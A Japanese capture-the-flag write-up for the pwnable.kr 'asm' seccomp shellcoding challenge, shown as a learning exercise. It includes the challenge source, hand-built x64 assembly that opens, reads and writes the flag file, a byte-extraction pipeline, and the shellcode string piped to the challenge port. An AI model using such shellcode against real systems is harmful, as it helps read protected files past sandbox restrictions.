

# 内容
まずはログインしてみる。

```bash
ssh asm@pwnable.kr -p2222
asm@pwnable.kr's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Thu Sep 26 13:55:23 2019 from 85.167.253.234
asm@prowl:~$ ls
asm
asm.c
readme
this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
asm@prowl:~$ ./asm
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: d
Segmentation fault (core dumped)
asm@prowl:~$ cat asm.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
        scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
        if (ctx == NULL) {
                printf("seccomp error\n");
                exit(0);
        }

        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

        if (seccomp_load(ctx) < 0){
                seccomp_release(ctx);
                printf("seccomp error\n");
                exit(0);
        }
        seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

        setvbuf(stdout, 0, _IONBF, 0);
        setvbuf(stdin, 0, _IOLBF, 0);

        printf("Welcome to shellcoding practice challenge.\n");
        printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
        printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
        printf("If this does not challenge you. you should play 'asg' challenge :)\n");

        char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
        memset(sh, 0x90, 0x1000);
        memcpy(sh, stub, strlen(stub));

        int offset = sizeof(stub);
        printf("give me your x64 shellcode: ");
        read(0, sh+offset, 1000);

        alarm(10);
        chroot("/home/asm_pwn");        // you are in chroot jail. so you can't use symlink in /tmp
        sandbox();
        ((void (*)(void))sh)();
        return 0;
}

asm@prowl:~$
asm@prowl:~$
asm@prowl:~$ ls
asm
asm.c
readme
this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
asm@prowl:~$ cat readme
once you connect to port 9026, the "asm" binary will be executed under asm_pwn privilege.
make connection to challenge (nc 0 9026) then get the flag. (file name of the flag is same as the one in this directory)
asm@prowl:~$
asm@prowl:~$
asm@prowl:~$ cat this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
this is fake flag file for letting you know the name of flag file.
asm@prowl:~$
```

shellcodeを送る問題。
フラグファイルはこのサーバーにあるみたいだけど、port 9029にあるらしい。
使用できるシステムコールはasm.cより、open, read, write, exit, exit_groupであることが分かる。
shellcodeは実際、pwntoolsという有志が作ったpythonのモジュールがある。

[https://github.com/Gallopsled/pwntools](https://github.com/Gallopsled/pwntools)

しかし、これを使うと、何の勉強にもならないので、x64のアセンブリを書いてshellcodeを作る。

# x64アセンブリによるshellcode
shellcodeは以下の手順で作る。
1. アセンブラを書く
2. アセンブラをコンパイル
3. objdumpで開いて、バイナリの部分だけ切り取ってshellcodeを作成

今回において、アセンブラを書く時の注意としては、jmpなどの命令を書かないことがあげられる。
例えば、サブルーチンを作成し、そこルーチンのアドレスにjmpするプログラムを書いた場合、jmpするアドレスが実際に実行する環境では異なる可能性があるから。
なので、jmp、サブルーチン、各セクションのラベル(rodata, dataなど)などのアドレスを指定するようなプログラムは使わない。
ただし、実際に実行する環境で飛びたいアドレスが分かっているのなら、使ってよいと思う。


x64アセンブリの書き方は長くなるので、別途書く。
実際に書いたソースコードは以下。


```asm
.section .text
  .globl _start

/*
* The following comments is quote from Stack Overflow.
* url; https://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-on-i39
*
*
* User-level applications use as integer registers for passing the sequence
* %rdi, %rsi, %rdx, %rcx, %r8 and %r9.
* The kernel interface uses %rdi, %rsi, %rdx, %r10, %r8 and %r9.
*
*
* In x86-32 parameters for Linux system call are passed using registers.
* %eax for syscall_number. %ebx, %ecx, %edx, %esi, %edi, %ebp
* are used for passing 6 parameters to system calls.
*/


/*
* Quote from unistd_64.h
#define __NR_read 0$
#define __NR_write 1$
#define __NR_open 2
*/

  _start:
    xor %rax, %rax
    xor %rdi, %rdi
    xor %rsi, %rsi
    xor %rdx, %rdx
   
    #movq $0x306F306F306F6E00, %rax
    #movq $0x006E6F306F306F30, %rax

    movq $0x00676E6F306F306F, %rax
    push %rax
    movq $0x306F306F306F306F, %rax
    push %rax
    movq $0x3030303030303030, %rax
    push %rax
    movq $0x303030306F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F6F6F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F6F6F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F3030303030, %rax
    push %rax
    movq $0x3030303030303030, %rax
    push %rax
    movq $0x3030303030303030, %rax
    push %rax
    movq $0x303030306F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F6F6F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F6F6F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F6F6F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F6F6F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F6F6F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F6F6F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F6F6F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F6F6F6F6F6F, %rax
    push %rax
    movq $0x6F6F6F6F6F6F6F6F, %rax
    push %rax
    movq $0x6C5F797265765F73, %rax
    push %rax
    movq $0x695F656D616E5F65, %rax
    push %rax
    movq $0x6C69665F6568745F, %rax
    push %rax
    movq $0x7972726F732E656C, %rax
    push %rax
    movq $0x69665F736968745F, %rax
    push %rax
    movq $0x646165725F657361, %rax
    push %rax
    movq $0x656C705F656C6966, %rax
    push %rax
    movq $0x5F67616C665F726B, %rax
    push %rax
    movq $0x2E656C62616E7770, %rax
    push %rax
    movq $0x5F73695F73696874, %rax
    push %rax

    movq %rax, %rax
    movq $0x2, %rax # system call number
    movq %rsp, %rdi
    movq $0x0, %rsi # flag is O_RDONLY
    movq $0x0, %rdx
    syscall # or int $0x80
    movq %rax, %rbx
    popq %rax

    xor %rax, %rax # system call number
    movq %rbx, %rdi
    sub $0x200, %rsp
    movq %rsp, %rsi # buffer
    movq $0x200, %rdx
    syscall
    
    movq $0x1, %rdi
    movq $0x1, %rax
    movq $0x100, %rdx
    #movq %rsp, %rsi
    syscall
    ret
```

このアセンブラでたくさんpushしている値はフラグのファイル名(this_is・・・のやつ)。
フリーソフトのbzなどで、この文字列をバイナリ表示させ、それをテキストファイルとして保存した。



```text
74 68 69 73 5F 69 73 5F 70 77 6E 61 62 6C 65 2E 6B 72 5F 66 6C 61 67 5F 66 69 6C 65 5F 70 6C 65 61 73 65 5F 72 65 61 64 5F 74 68 69 73 5F 66 69 6C 65 2E 73 6F 72 72 79 5F 74 68 65 5F 66 69 6C 65 5F 6E 61 6D 65 5F 69 73 5F 76 65 72 79 5F 6C 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 6F 30 30 30 30 30 30 30 30 30 30 30 30 6F 30 6F 30 6F 30 6F 30 6F 30 6F 30 6F 6E 67
```

そのあと、これらを、命令形式にするpythonのスクリプトを書いて、それをプログラムにコピー＆ペーストした。

```python
filepointer = open("binary.txt", "r")
contents = filepointer.read()
binary_list = contents.split(" ")

list_of_eight_bytes = []
eight_byte_cnt = 1
byte4tmp = ""

print(binary_list)

# split 8byte
for byte in binary_list:
    byte4tmp = byte + byte4tmp
    if eight_byte_cnt == 8: #if count 8 bytes, initialize.
        list_of_eight_bytes.append(byte4tmp)
        byte4tmp = ""
        eight_byte_cnt = 1
        continue
    eight_byte_cnt += 1

#if eight_byte_cnt != 0:
list_of_eight_bytes.append(byte4tmp)

print(list_of_eight_bytes)

reverse = list_of_eight_bytes[::-1]
list_cnt = 0
for byte in reverse:
    reverse[list_cnt] = "movq $0x" + byte + ", %rax"
    print(reverse[list_cnt])
    print("push %rax")
    list_cnt += 1
```

以下pythonスクリプトの結果。これの命令部分を上のアセンブラのコードにコピー＆ペーストした

```bash
$ python3 binary_align.py
['74', '68', '69', '73', '5F', '69', '73', '5F', '70', '77', '6E', '61', '62', '6C', '65', '2E', '6B', '72', '5F', '66', '6C', '61', '67', '5F', '66', '69', '6C', '65', '5F', '70', '6C', '65', '61', '73', '65', '5F', '72', '65', '61', '64', '5F', '74', '68', '69', '73', '5F', '66', '69', '6C', '65', '2E', '73', '6F', '72', '72', '79', '5F', '74', '68', '65', '5F', '66', '69', '6C', '65', '5F', '6E', '61', '6D', '65', '5F', '69', '73', '5F', '76', '65', '72', '79', '5F', '6C', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '6F', '30', '6F', '30', '6F', '30', '6F', '30', '6F', '30', '6F', '30', '6F', '6E', '67']
['5F73695F73696874', '2E656C62616E7770', '5F67616C665F726B', '656C705F656C6966', '646165725F657361', '69665F736968745F', '7972726F732E656C', '6C69665F6568745F', '695F656D616E5F65', '6C5F797265765F73', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '303030306F6F6F6F', '3030303030303030', '3030303030303030', '6F6F6F3030303030', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '303030306F6F6F6F', '3030303030303030', '306F306F306F306F', '676E6F306F306F']
movq $0x676E6F306F306F, %rax
push %rax
movq $0x306F306F306F306F, %rax
push %rax
movq $0x3030303030303030, %rax
push %rax
movq $0x303030306F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F3030303030, %rax
push %rax
movq $0x3030303030303030, %rax
push %rax
movq $0x3030303030303030, %rax
push %rax
movq $0x303030306F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6C5F797265765F73, %rax
push %rax
movq $0x695F656D616E5F65, %rax
push %rax
movq $0x6C69665F6568745F, %rax
push %rax
movq $0x7972726F732E656C, %rax
push %rax
movq $0x69665F736968745F, %rax
push %rax
movq $0x646165725F657361, %rax
push %rax
movq $0x656C705F656C6966, %rax
push %rax
movq $0x5F67616C665F726B, %rax
push %rax
movq $0x2E656C62616E7770, %rax
push %rax
movq $0x5F73695F73696874, %rax
push %rax
['74', '68', '69', '73', '5F', '69', '73', '5F', '70', '77', '6E', '61', '62', '6C', '65', '2E', '6B', '72', '5F', '66', '6C', '61', '67', '5F', '66', '69', '6C', '65', '5F', '70', '6C', '65', '61', '73', '65', '5F', '72', '65', '61', '64', '5F', '74', '68', '69', '73', '5F', '66', '69', '6C', '65', '2E', '73', '6F', '72', '72', '79', '5F', '74', '68', '65', '5F', '66', '69', '6C', '65', '5F', '6E', '61', '6D', '65', '5F', '69', '73', '5F', '76', '65', '72', '79', '5F', '6C', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '6F', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '30', '6F', '30', '6F', '30', '6F', '30', '6F', '30', '6F', '30', '6F', '30', '6F', '6E', '67']
['5F73695F73696874', '2E656C62616E7770', '5F67616C665F726B', '656C705F656C6966', '646165725F657361', '69665F736968745F', '7972726F732E656C', '6C69665F6568745F', '695F656D616E5F65', '6C5F797265765F73', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '303030306F6F6F6F', '3030303030303030', '3030303030303030', '6F6F6F3030303030', '6F6F6F6F6F6F6F6F', '6F6F6F6F6F6F6F6F', '303030306F6F6F6F', '3030303030303030', '306F306F306F306F', '676E6F306F306F']
movq $0x676E6F306F306F, %rax
push %rax
movq $0x306F306F306F306F, %rax
push %rax
movq $0x3030303030303030, %rax
push %rax
movq $0x303030306F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F3030303030, %rax
push %rax
movq $0x3030303030303030, %rax
push %rax
movq $0x3030303030303030, %rax
push %rax
movq $0x303030306F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6F6F6F6F6F6F6F6F, %rax
push %rax
movq $0x6C5F797265765F73, %rax
push %rax
movq $0x695F656D616E5F65, %rax
push %rax
movq $0x6C69665F6568745F, %rax
push %rax
movq $0x7972726F732E656C, %rax
push %rax
movq $0x69665F736968745F, %rax
push %rax
movq $0x646165725F657361, %rax
push %rax
movq $0x656C705F656C6966, %rax
push %rax
movq $0x5F67616C665F726B, %rax
push %rax
movq $0x2E656C62616E7770, %rax
push %rax
movq $0x5F73695F73696874, %rax
push %rax
```

実際にできたアセンブラファイルをコンパイルする。

```bash
$ as solve_ver2.s -o solve_ver2.o && ld -s -o solve_ver2 solve_ver2.o && ./solve_ver2
```

ここで、実行ファイルはセグメントフォルトを起こすが、問題ない。アセンブラ上でpushした後、popしてないからである。
次に、バイナリを抽出する。

```bash
$ for i in $(objdump -d solve_ver2 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\xb8\x6f\x30\x6f\x30\x6f\x6e\x67\x00\x50\x48\xb8\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x50\x48\xb8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x30\x30\x30\x30\x30\x6f\x6f\x6f\x50\x48\xb8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xb8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x73\x5f\x76\x65\x72\x79\x5f\x6c\x50\x48\xb8\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x50\x48\xb8\x5f\x74\x68\x65\x5f\x66\x69\x6c\x50\x48\xb8\x6c\x65\x2e\x73\x6f\x72\x72\x79\x50\x48\xb8\x5f\x74\x68\x69\x73\x5f\x66\x69\x50\x48\xb8\x61\x73\x65\x5f\x72\x65\x61\x64\x50\x48\xb8\x66\x69\x6c\x65\x5f\x70\x6c\x65\x50\x48\xb8\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x50\x48\xb8\x70\x77\x6e\x61\x62\x6c\x65\x2e\x50\x48\xb8\x74\x68\x69\x73\x5f\x69\x73\x5f\x50\x48\x89\xc0\x48\xc7\xc0\x02\x00\x00\x00\x48\x89\xe7\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x0f\x05\x48\x89\xc3\x58\x48\x31\xc0\x48\x89\xdf\x48\x81\xec\x00\x02\x00\x00\x48\x89\xe6\x48\xc7\xc2\x00\x02\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x48\xc7\xc2\x00\x01\x00\x00\x0f\x05\xc3
$  
```

後はncに送るだけ。

```bash
$ python -c 'print "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\xb8\x6f\x30\x6f\x30\x6f\x6e\x67\x00\x50\x48\xb8\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x50\x48
\xb8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x30\x30\x30\x30\x30\x6f\x6f\x6f\x50\x48\xb8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xb8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x48\xb8\x73\x5f\x76\x65\x72\x79\x5f\x6c\x50\x48\xb8\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x50\x48\xb8\x5f\x74\x68\x65\x5f\x66\x69\x6c\x50\x48\xb8\x6c\x65\x2e\x73\x6f\x72\x72\x79\x50\x48\xb8\x5f\x74\x68\x69\x73\x5f\x66\x69\x50\x48\xb8\x61\x73\x65\x5f\x72\x65\x61\x64\x50\x48\xb8\x66\x69\x6c\x65\x5f\x70\x6c\x65\x50\x48\xb8\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x50\x48\xb8\x70\x77\x6e\x61\x62\x6c\x65\x2e\x50\x48\xb8\x74\x68\x69\x73\x5f\x69\x73\x5f\x50\x48\x89\xc0\x48\xc7\xc0\x02\x00\x00\x00\x48\x89\xe7\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x0f\x05\x48\x89\xc3\x58\x48\x31\xc0\x48\x89\xdf\x48\x81\xec\x00\x02\x00\x00\x48\x89\xe6\x48\xc7\xc2\x00\x02\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x48\xc7\xc2\x00\x01\x00\x00\x0f\x05\xc3"' | nc pwnable.kr 9026 | less

Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode:


```


フラグゲット。
